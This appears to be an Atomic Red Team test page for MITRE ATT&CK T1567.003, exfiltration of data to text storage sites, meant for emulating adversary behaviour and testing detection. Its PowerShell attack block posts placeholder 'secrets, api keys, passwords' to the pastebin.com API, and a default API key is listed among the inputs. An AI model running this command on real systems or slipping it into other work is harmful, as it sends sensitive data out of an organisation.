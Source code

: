 ```yaml
---
tags: [T1567_003, atomic_test]
filename: "[[T1567.003 - Exfiltration Over Web Service- Exfiltration to Text Storage Sites]]"
---
```

# T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)
This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)                             
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows


**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0|


#### Attack Commands: Run with `powershell`! 


```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```






<br/>
